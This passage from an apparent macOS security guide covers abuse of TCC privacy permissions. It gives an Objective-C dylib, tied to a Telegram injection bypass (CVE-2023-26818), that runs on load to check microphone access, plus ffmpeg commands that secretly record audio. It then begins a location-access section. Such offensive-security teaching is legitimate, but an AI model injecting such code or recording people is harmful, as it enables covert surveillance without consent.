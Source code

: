 ```objectivec
#import <Foundation/Foundation.h>
#import <AVFoundation/AVFoundation.h>

// From https://vsociety.medium.com/cve-2023-26818-macos-tcc-bypass-with-telegram-using-dylib-injection-part1-768b34efd8c4
// gcc -framework Foundation -framework AVFoundation -dynamiclib MicTest.m -o MicTest.dylib

@interface MicrophoneAccessChecker : NSObject
+ (BOOL)hasMicrophoneAccess;
@end
@implementation MicrophoneAccessChecker
+ (BOOL)hasMicrophoneAccess {
    AVAuthorizationStatus status = [AVCaptureDevice authorizationStatusForMediaType:AVMediaTypeAudio];
    if (status == AVAuthorizationStatusAuthorized) {
        NSLog(@"[+] Access to microphone granted.");
        return YES;
    } else {
        NSLog(@"[-] Access to microphone denied.");
        return NO;
    }
}
@end
__attribute__((constructor))
static void telegram(int argc, const char **argv) {
    [MicrophoneAccessChecker hasMicrophoneAccess];
}
```
{% endtab %}

{% tab title="Shell" %}
Record a 5s audio and store it in `/tmp/recording.wav`

```bash
# Check the microphones
ffmpeg -f avfoundation -list_devices true -i ""
# Use microphone from index 1 from the previous list to record
ffmpeg -f avfoundation -i ":1" -t 5 /tmp/recording.wav
```
{% endtab %}
{% endtabs %}

### Location

{% hint style="success" %}
For an app to get the location, **Location Services** (from Privacy & Security) **must be enabled,** if not it won't be able to access it.
{% endhint %}

* **Entitlement**: `com.apple.security.personal-information.location`
* **TCC**: Granted in `/var/db/locationd/clients.plist`

{% tabs %}
{% tab title="ObjectiveC" %}
Write the location in `/tmp/logs.txt`
